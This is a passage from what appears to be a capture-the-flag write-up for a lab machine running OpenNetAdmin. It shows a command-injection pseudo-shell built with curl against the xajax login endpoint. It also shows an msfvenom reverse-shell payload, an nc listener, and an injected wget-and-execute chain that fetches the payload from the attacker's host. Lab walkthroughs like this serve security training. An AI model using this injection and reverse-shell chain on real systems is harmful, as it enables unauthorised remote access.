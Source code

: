 ```bash
while true;
do
  echo -n "$ "; read cmd
  ENC=$(python3 -c "import urllib.parse;print(urllib.parse.quote('$cmd'))")
  curl -s --data "xajax=window_submit&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo 'BUBBA-START';$ENC;echo 'BUBBA-END'&xajaxargs[]=ping" http://10.10.10.171/ona/login.php | sed -n -e '/BUBBA-START/,/BUBBA-END/p' | tail -n +2 | head -n -1
done
```

![user1](./openadmin/user1.png)

From here, trying to run the exploit manually and redirecting STDERR to STDOUT shows the following error:

```
Bad system call (core dumped)
```

This is likely because the payload is x86 and not x64 for the target version. Re-generate the payload and get a reverse shell:

```bash
# generate payload 
msfvenom -p linux/x64/shell_reverse_tcp \
         LHOST=10.10.14.27 \
         LPORT=6969 \
         -f elf \
         -o bubba.elf
# host payload
sudo python3 -m http.server 80
# setup listener
nc -nvlp 6969
# trigger payload execution
P='wget -O /tmp/bubba.elf http://10.10.14.27/bubba.elf && chmod 777 /tmp/bubba.elf && /tmp/bubba.elf'
P_ENC=$(python3 -c "import urllib.parse;print(urllib.parse.quote('$P'))")
curl -s --data "xajax=window_submit&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;$P_ENC&xajaxargs[]=ping" http://10.10.10.171/ona/login.php 
```

This returns a shell but not `user.txt`. The next step is to move laterally or escalate:
